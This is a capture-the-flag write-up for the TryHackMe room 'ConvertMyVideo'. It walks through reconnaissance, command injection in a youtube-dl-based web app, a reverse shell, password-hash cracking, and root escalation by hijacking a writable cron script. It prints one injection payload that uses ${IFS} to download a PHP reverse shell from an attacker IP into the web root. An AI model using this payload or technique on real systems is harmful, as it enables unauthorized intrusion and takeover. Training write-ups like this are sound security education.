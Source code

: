 # ConvertMyVideo TryHackMe Writeup
## Level: Medium

![logo](1.png)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](2.png)

## Enumeration
We access the website, we see that it is a simple application that collects the ID of a youtube video.

![](3.png)

We use **dirsearch** and list an interesting directory.

![](6.png)

We entry the *"/*******/"* directory and list a basic authentication panel.

![](4.png)

We continue reviewing the variable *"yt_url"* of the web application, investigating by Google I find this [github:](https://github.com/ytdl-org/youtube-dl/) where it shows us useful commands.

#### --version

![](7.png)

The **"--exec"** command not working....It seems that there are problems with the coding, looking for a way to solve the problem I discovered a way to be able to execute the **"ls"** command without problems.

![](8.png)

Okay, so let's use the payload so we can read the first flag.

![](9.png)


## Exploitation
We create a pentestmonkey reverse shell, raise a python server, set a netcat listening and use the following command to obtain a connection on the victim machine.

![](10.png)

```bash
<`wget${IFS}10.11.30.149:8000/m3.php${IFS}-O${IFS}/var/www/html/m3.php`
```

#### Reverse shell

![](11.png)

Once we have access to the inside of the machine, we read the file *".htpasswd"* and crack the hash with the dictionary **"rockyou.txt"**.

![](12.png)

#### Cracking with JTR

![](13.png)

## Privilege Escalation
After launching several reconnaissance scripts, I end up analyzing the processes that are being executed by the system on a scheduled basis with **pspy** tool and we detect a *"clean.sh"* script running with *"UID=0" (root)*.

![](14.png)

We check the permissions we have on the file, we see that we can write to it, so we insert a line to invoke a reverse shell with **netcat** and we put another **netcat** listening in our Kali.

![](15.png)

We wait a few minutes for the script to run with our malicious code and we will have an interactive connection as root.

![](16.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
